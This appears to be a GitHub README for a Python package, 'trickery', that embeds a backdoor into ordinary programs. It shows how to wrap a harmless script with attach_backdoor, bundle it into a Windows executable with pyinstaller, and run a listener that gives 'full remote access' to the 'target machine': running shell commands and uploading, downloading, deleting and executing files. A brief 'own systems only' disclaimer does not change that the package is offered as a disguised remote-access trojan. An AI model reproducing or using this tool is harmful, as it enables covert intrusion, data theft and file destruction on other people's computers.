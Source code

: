 # trickery
To bind a third-party service to a custom code
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
WARNING!!!

The package is for personal and is supposed to be used on your own systems and data only. The author will not be responsible for any illegal activity carried out by the users/community by this module.

#####################################################################################
*How to use it in my code?

Suppose hello.py is your python file and your code in file is- 
-------------------------------------------------------------------------------------
print("Hello World!")
-------------------------------------------------------------------------------------
And you want to embed a backdoor in backdoor in it, so you will use, 
-> trickery.attach_backdoor(host,port,mainFunction,True)
Parse True for ipv6 address
=====================================================================================
from trickery import attach_backdoor
def main():
    print("Hello World!")
trickery.attach_backdoor("127.0.0.1",1234,main)  
=====================================================================================
Then package this program using pyinstaller (.exe file for windows)

Now when the code will be run on a target machine, that system will compromised and will gain you full remote access, however that system should strictly be yours!

*How to control the system ?

In order to send/recieve files and commands you need to bind the host on that IP address that you had specified in the attach_backdoor in hello.py using trickery.listen()-
Suppose your file name be host.py and code - 

=====================================================================================
from trickery import listen
listen("127.0.0.1",1234)
=====================================================================================

Then you will receive incoming from the target machine and this will be displayed 
on the standard output screen of the host.py along with the target ip.
Commands Instructions :
All the commands depending upon the target's operating system, will be executed by entering that command after ">> " on the output of host.py after the target is displayed.
Some other commands defined by the author-
cd - For changing current working directory
for example: cd C:/users
download - To download a file from the target system.
for example: download filename.exe
upload - To upload a file on the target system.
for example: upload filename.exe
delete - to delete a file (not directory) from the target system.
for example - delete filename.exe
execute - to execute a file/command/program which will be running for a longer duration/infinte loop.
for example - execute whatsapp.lnk

************************* END OF THE FILE**************************************
